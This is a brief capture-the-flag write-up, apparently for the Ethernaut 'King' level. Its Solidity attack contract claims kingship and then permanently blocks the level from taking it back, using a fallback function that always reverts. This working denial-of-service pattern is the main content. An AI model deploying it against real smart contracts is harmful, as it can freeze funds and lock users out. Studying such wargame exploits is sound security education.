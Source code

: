 ```javascript
pragma solidity ^0.6.0;

contract KingAttack {
    address payable public attack_addr;
    uint public balance;
    
    constructor(address payable addr) public payable {
        attack_addr = addr;
        balance = msg.value;
    }
    
    function attack() public payable{
        (bool success, ) = attack_addr.call{value:2000000000000000}("");
        require(success, "Failed to claim to be a king.");
    }
    
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
    
    fallback() external payable {
        revert("I am the eternal king.");
    }
}
```

First initialize this contract with `2000000000000000 wei` (more than the prize set in the King contract). Then, call attack to claim kingship. The `revert` fallback will prevent the level from reclaiming kingship.